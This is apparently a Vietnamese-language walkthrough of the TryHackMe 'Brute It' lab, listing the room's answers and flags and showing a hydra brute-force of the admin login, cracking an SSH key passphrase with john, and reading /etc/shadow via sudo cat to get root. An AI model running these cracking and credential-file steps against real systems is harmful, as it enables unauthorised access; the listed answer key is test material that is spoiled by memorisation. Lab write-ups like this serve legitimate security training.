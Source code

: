 ```yaml
---
template: overrides/blog.html
icon: material/plus-circle
title: Brute It
description: >
  
search:
  exclude: true
hide:
  - feedback

tags:
  - THM-Room 
  - Privilege Escalation
---
```


# __Brute It__

Room at https://tryhackme.com/room/bruteit

---

??? question "List of the questions solved"

    Question: How many ports are open?
    > Ans: 2

    Question: What version of SSH is running
    > Ans: OpenSSH 7.6p1

    Question: What version of Apache is running?
    > Ans: Ubuntu

    Question: What is the hidden directory?
    > Ans: /admin

    Question: What is the user:password of the admin panel?
    > Ans: admin:xavier

    Question: What is John's RSA private Key passphrase
    > Ans: rockinroll

    Question: user.txt
    > Ans: THM{a_password_is_not_a_barrier}

    Question: Web flag
    > Ans: THM{brut3_f0rce_is_e4sy}

    Question: What is the root password?
    > football

    Question: root.txt
    > Ans: THM{pr1v1l3g3_3sc4l4t10n}

## __Pentest scenario__

Host: 10.10.206.216

### __Reconnaissance__

Như thường lệ, ta cũng scan nmap (chọn option -A để hiển thị thông tin cần thiết để trả lời câu hỏi), gobuster

Scan nmap ra được 2 port: 22 cho ssh và 80 cho http

Sau khi scan ra url http://10.10.206.216/admin, ta được hint quan trọng như hình dưới

![](image.png)

Với hình trên, ta biết được sẽ có user john (dùng cho ssh) và trang web login lấy username là admin :3

Roài, dùng hydra để bruteforce password cho username admin thôi
> hydra -l admin -P ~/Desktop/allthings/rockyou.txt 10.10.206.216 http-post-form "/admin/index.php:user=admin&pass=^PASS^:Username or password invalid"

??? info "No.........."

    username: admin

    password: xavier

Sau khi login thành công, ta được thêm file pass cho ssh và `Web flag`

![](image-1.png)

Dùng john ta có thể dễ dàng tìm được passphrase 

```ps1 title="Terminal"
└─$ sudo ssh2john  id_rsa >  hash
   sudo john hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
rockinroll       (id_rsa)     
1g 0:00:00:06 DONE (2023-09-01 14:41) 0.1512g/s 10984p/s 10984c/s 10984C/s saloni..rock14
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

??? note "Xem nó"

    Vì file id_rsa là file private key cho ssh nên dùng `john id_rsa` thì john không hiểu được file id_rsa, nên sẽ dẫn đển việc không tìm được key passphrase. Ta cần chuyển file id_rsa thành dạng hash mà john có thể hiểu. Đó là lý do ta dùng `ssh2john`.

Có đủ mọi thứ rồi, login ssh thôi

### __Init Access__

![Sudo -l](image-2.png)

Bài này leo quyền dễ roài, vì có quyền sudo tại lệnh cat. Ta sẽ dùng nó để đọc file /etc/shadow.

![/etc/shadow](image-3.png)

Sau khi giải mã password, ta được

![](image-4.png)

> Root's password: football

### __Privilege Escalation__

Leo quyền thôi

```ps1 title="Terminal"
su root
```

![](image-5.png)

## __What we learned__

1. Privilege Escalation with /bin/cat
2. Use tool ssh2john
